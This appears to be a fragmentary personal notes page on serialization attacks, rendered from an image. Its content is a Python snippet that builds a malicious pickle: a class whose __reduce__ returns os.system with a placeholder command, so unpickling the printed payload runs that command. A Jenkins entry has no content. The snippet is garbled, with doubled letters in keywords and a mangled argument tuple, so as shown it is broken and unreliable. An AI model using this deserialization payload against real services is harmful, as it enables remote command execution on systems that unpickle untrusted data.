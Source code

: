 ```yaml
---
title: RND
date: 2021-10-30
categories:
  - Notes
tags:
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```



<h2 id="serializations">Serialization</h2>
<a href="serialization-python">
<li>Python</li>
  <fieldset>
    <legend>Python Serialization</legend>
      <pre><code>
        iimport cPickle
        iimport os
        
        iiclass Blah(object):
          def __reduce__(self):
            return (os.system,('command'.))'
        
        
        b = Blah()
        print cPickle.dumps(b)
      </code></pre>
  </fieldset>
</a>


<a href="serialization-in-jenkins">
  <li>Jenkins</li>
</a>






